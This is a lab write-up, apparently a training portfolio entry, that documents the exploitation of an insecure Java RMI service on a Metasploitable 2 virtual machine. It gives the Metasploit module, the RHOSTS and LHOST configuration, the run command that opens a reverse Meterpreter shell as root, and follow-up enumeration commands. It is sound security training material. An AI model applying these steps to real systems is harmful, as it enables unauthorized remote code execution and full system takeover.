






# Metasploitable Lab 9 — Java RMI Exploitation and Remote Code Execution

## Objective

The objective of this lab was to identify and exploit an insecure Java RMI (Remote Method Invocation) service to achieve remote code execution on the target system.

This lab demonstrates how attackers leverage insecure service configurations to execute arbitrary code remotely, resulting in immediate full system compromise.

---

## Lab Environment

| Component | Description |
|-----------|-------------|
| Host Machine | MacBook Pro (Intel, 16GB RAM) |
| Virtualization | VirtualBox |
| Attacker Machine | Kali Linux |
| Target Machine | Metasploitable 2 |
| Network | VirtualBox Host-only Network |
| Network Range | 192.168.56.0/24 |

### Lab Network Topology

Internet

|

Kali Linux (eth0 - NAT)

|

Kali Linux (eth1 - Host-only)

|

192.168.56.0/24 Lab Network

|

Metasploitable 2

---

## Tools Used

| Tool | Purpose |
|------|--------|
| Nmap | Service enumeration |
| Netcat (nc) | Manual service interaction |
| Metasploit | Exploitation framework |
| Meterpreter | Post-exploitation control |

---

# Step 1 — Service Identification

From initial enumeration, the following service was identified:

1099/tcp open java-rmi GNU Classpath grmiregistry  

---

## Analysis

- Java RMI (Remote Method Invocation) allows remote execution of Java methods  
- Often used in backend systems for distributed applications  
- Misconfigurations can allow unauthenticated remote code execution  
- High-value target due to potential for direct system compromise  

---

# Step 2 — Service Interaction

## Command Used

nc 192.168.56.3 1099  

---

## Result

No meaningful response was returned.

---

## Analysis

- RMI is not a text-based protocol  
- Cannot be manually interacted with like FTP or HTTP  
- Requires specialised tools for exploitation  
- Indicates need to pivot to tool-assisted approach  

---

# Step 3 — Exploit Discovery

## Method

Metasploit was used to identify potential RMI-related exploits:

search type:exploit rmi  

---

## Result

Relevant module identified:

exploit/multi/misc/java_rmi_server  

---

## Analysis

- Module specifically targets insecure Java RMI configurations  
- Rated “excellent,” indicating high reliability  
- Matches service identified during enumeration  

---

# Step 4 — Exploit Configuration

## Commands Used

use exploit/multi/misc/java_rmi_server  
set RHOSTS 192.168.56.3  
set LHOST 192.168.56.2  

---

## Analysis

- RHOSTS specifies the target system  
- LHOST specifies the attacker's machine for reverse connection  
- Default RPORT (1099) matches the RMI service  

---

# Step 5 — Exploitation

## Command Used

run  

---

## Result

Meterpreter session successfully opened:

Meterpreter session 1 opened (192.168.56.2:4444 -> 192.168.56.3:58125)  

---

## Analysis

- Exploit triggered remote code execution  
- Target system retrieved malicious payload from attacker  
- Payload executed in memory  
- Reverse connection established  

---

# Step 6 — System Enumeration

## Commands Used

sysinfo  
getuid  

---

## Output

OS: Linux 2.6.24-16-server  
Architecture: x86  
User: root  

---

## Analysis

- Exploit resulted in immediate root-level access  
- No privilege escalation required  
- Indicates service was running with elevated privileges  

---

# Step 7 — Shell Access Verification

## Commands Used

shell  
whoami  
id  
pwd  

---

## Output

whoami → root  
id → uid=0(root)  
pwd → /  

---

## Analysis

- Full system control confirmed  
- Access is stable and interactive  
- Root privileges allow unrestricted system access  

---

# Vulnerability Explanation

This vulnerability arises from an insecure Java RMI configuration that allows remote loading and execution of attacker-controlled Java code.

The attack works by:

- connecting to the RMI registry  
- instructing the server to load a remote Java object  
- delivering a malicious payload from the attacker’s system  
- executing the payload on the target  

Because the RMI service runs with root privileges, the malicious code is executed as root, resulting in immediate full system compromise.

---

# Security Concepts Learned

This lab demonstrated several critical concepts:

- **Java RMI** — Remote execution of methods across systems  
- **Remote Code Execution (RCE)** — Executing arbitrary code on a target system  
- **Insecure Service Configuration** — Trusting remote inputs without validation  
- **Tool-Assisted Exploitation** — Using frameworks for complex protocols  
- **Payload Delivery** — Transferring malicious code to a target  
- **Meterpreter** — Advanced post-exploitation control  
- **Privilege Context** — Code execution inherits service permissions  
- **Attack Surface Expansion** — Moving beyond obvious services  

---

# Lessons Learned

- Not all services can be manually exploited  
- Tool selection depends on protocol and service type  
- Service version and configuration are critical in identifying vulnerabilities  
- Remote code execution is one of the most severe vulnerability types  
- Services running as root significantly increase impact  
- Exploitation can occur without authentication or credentials  
- Understanding how tools work is as important as using them  
- Real-world attacks often involve pivoting between multiple services  

---

# Final Outcome

- Java RMI service identified and analysed  
- Appropriate exploit module selected  
- Remote code execution achieved  
- Meterpreter session established  
- Root-level access obtained immediately  
- Full system compromise achieved without privilege escalation  